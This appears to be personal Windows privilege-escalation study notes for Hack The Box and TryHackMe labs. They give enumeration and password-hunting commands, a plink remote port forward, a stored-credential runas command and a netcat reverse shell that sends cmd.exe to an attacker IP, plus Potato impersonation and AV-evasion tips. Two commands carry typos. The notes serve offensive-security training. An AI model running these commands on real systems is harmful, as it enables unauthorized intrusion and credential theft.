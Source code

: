 
- [Fuzzy Security Guide](https://www.fuzzysecurity.com/tutorials/16.html)
- [PayloadsAllTheThings Guide](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- [Absolomb Windows Privilege Escalation Guide](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)
- [Sushant 747's Guide (Country dependant - may need VPN)](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)
- [Course Resources](https://github.com/TCM-Course-Resources/Windows-Privilege-Escalation-Resources)
- [Alternate Data Streams](https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/)
- [hacktricks](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters)
- [SMB Enum Checklist](https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html)
## Initial Enumeration
- System Enumeration
	- `systeminfo` 
	- `systeminfo | findstr /b /c:"OS Name" /c:"OS Versoin" /c:"System Type" `
	- `wmic qfe `
	- `wmic qfe Caption,Description,HotFixID,InstalledOn` 
	- `wmic logicaldisk `
	- `wmic logicaldisk get caption,description,providername` 
	- `wmic logicaldisk get caption`
- User Enumeration
	- `whoami /priv`
	- `whoami /groups`
	- `net user`
	- `net user anurag`
	- `net localgroup`
	- `net localgriup Administrators`
- Network Enumeration
	- `ipconfig` or `ipconfig /all`
	- `arp -a`
	- `route print`
	- `netstat -ano`
- Password Hunting
	- `findstr /si password *.txt *.ini *.config`
-  AV Enumeration
	- `sc query windefend`
	- `sc queryex type= service`
	- `netsh advfirewall firewall dump`
	- `netsh firewall show state`
	- `netsh firewall show config`

## Automated Tool
- Executables
	- [WinPEAS ](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
	- [Seatbelt](https://github.com/GhostPack/Seatbelt) (Compile)
	- [SharpUp](https://github.com/GhostPack/SharpUp) (Compile)
	- [Watson](https://github.com/rasta-mouse/Watson) (Compile)
- PowerShell
	- [Sherlock](https://github.com/rasta-mouse/Sherlock)
	- [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)  -- run always
		- To run `powershell -ep bypass` 
		- `, .\PowerUp.ps1` 
		- `Invoke-AllChecks`
	- [JAWS](https://github.com/411Hall/JAWS)
- Other
	- [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) (local) -- need system info and run on our system
	- [Metasploit Local Exploit Suggester](https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/)

- [Windows PrivEsc Checklist](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)

## Escalation Path

####  Kernel Exploits
- Box [Devel](https://anuragtaparia.gitbook.io/write-ups/windows/htb-or-devel)
- What is kernel
![[kernel.png]]
- For Windows
![[windows kernel.png]]
- [Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits) resource

#### Passwords and Port Forwarding
- Box [ChatterBox](https://anuragtaparia.gitbook.io/write-ups/windows/htb-or-chatterbox)
- Pivoting
	- install ssh on kali `sudo apt install ssh` and change the `PermitRootLogon yes` in `/etc/ssh/sshd_config`  then `service restart ssh` 
		- also change the port from 22 to 2222 if giving 'Network error: Connection timed out'
	- `plink.exe -l root -pw toor -R 445:127.0.0.1:445 10.10.14.16`  
		- The command connects to the remote SSH server at `10.10.14.16` with the username `root` and password `toor`. It sets up remote port forwarding so that any connections made to port `445` on the remote server are forwarded to port `445` on your local machine (local machine is htb box in our case).

#### Windows Subsystem for Linux (WSL)
- Box [SecNotes](https://anuragtaparia.gitbook.io/write-ups/windows/htb-or-secnotes)
- check for bash.exe and wsl.exe
- `where /R c:\windows bash.exe `  OR `where /R c:\windows wsl.exe`
- and run bash.exe or `wsl.exe cmd`

#### Impersonation and Potato Attacks
- Box [Jeeves](https://anuragtaparia.gitbook.io/write-ups/windows/htb-or-jeeves)
- Refer [this](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#eop-impersonation-privileges)
- look for `SeAssignPrimaryToken` or `SeImpersonate`
- [Rotten Potato](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)
- [Juicy Potato](https://github.com/ohpe/juicy-potato)
- For meterpreter `exploit/windows/local/ms16_075_reflection_juicy` or `exploit/windows/local/ms16_075_reflection`
- `getsystem` -- meterpreter cmd for impersonation (avoid technique 2 in real world might got caught by AV)
	- [What happens when I type getsystem?](https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/)

#### RunAs
- Box [Access](https://anuragtaparia.gitbook.io/write-ups/windows/htb-or-access)
- run `cmdkey /list` -- if there is any stored cred, we can use runas.exe
	- `C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\root.txt"`
	- or for shell
		- On our system -- `nc -nlvp 1234`
		- on box -- `C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c C:\Users\security\nc.exe -e C:\Windows\System32\cmd.exe 10.10.14.6 1234"`

#### Registry
- Using THM [Windows PrivEsc Arena](https://tryhackme.com/r/room/windowsprivescarena)
- Registry Escalation - Autorun
- Registry Escalation -  AlwaysInstallElevated
- Service Escalation - Registry

#### Executable Files
- Using THM [Windows PrivEsc Arena](https://tryhackme.com/r/room/windowsprivescarena)
- Service Escalation - Executable Files

#### Startup Applications
- Using THM [Windows PrivEsc Arena](https://tryhackme.com/r/room/windowsprivescarena)
- Privilege Escalation - Startup Applications
- `icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"` 
- if “BUILTIN\Users” group has full access ‘(F)’ to the directory that means we can put our msf exe and get shell

#### DLL Hijacking
- Using THM [Windows PrivEsc Arena](https://tryhackme.com/r/room/windowsprivescarena)
- Service Escalation - DLL Hijacking

#### Service Permissions (Paths)
- Using THM [Windows PrivEsc Arena](https://tryhackme.com/r/room/windowsprivescarena)
- Service Escalation - binPath
- Service Escalation - Unquoted Service Paths
